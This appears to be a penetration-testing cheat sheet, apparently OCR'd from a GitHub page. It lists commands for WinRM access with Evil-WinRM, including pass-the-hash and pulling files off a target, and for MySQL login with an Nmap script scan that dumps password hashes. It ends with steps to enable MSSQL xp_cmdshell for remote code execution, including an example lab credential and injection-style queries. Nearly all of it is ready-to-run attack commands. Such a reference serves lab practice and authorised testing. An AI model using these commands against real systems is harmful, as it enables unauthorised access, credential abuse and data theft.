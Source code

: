 ### <ins>5985/5986 - Evil-winrm</ins>

```
1. Check: crackmapexec --verbose winrm <IP> -u <username> -p <password>

2. Try both ports: evil-winrm -i <IP> -u <username> -p <password> -p <port>

3. Powershell session: evil-winrm -i <IP> -u <username> -p <password>

4. Pass the hash (NTLM): evil-winrm -i <IP> -u <username> -H <hash>

5. Exfil data using Evil-winrm: download <File to be exfiltrated location> <Local location where it should be exfiltrated>


```

### <ins>3306 - MYSQL</ins>

```
1. MYSQL Login: mysql -h <IP> -u <username> -p <pass> -P <port>

2. Nmap Vulnerability scan: nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

3. Login: sqsh -S <IP> -U <username> -P <password> -D <database>

```

#### xp_cmdshell -> RCE

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>

In sqsh, you need to use GO after writing the query to send it
Do one by one each command:

# Get users that can run xp_cmdshell
Use master
EXEC sp_helprotect 'xp_cmdshell'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE

# This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'

-----------------------------------------------------
# Enabling xp_cmdshell for SQL Server 2005
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
-----------------------------------------------------

'EXECUTE sp_configure 'show advanced options', 1; --
'RECONFIGURE; --
```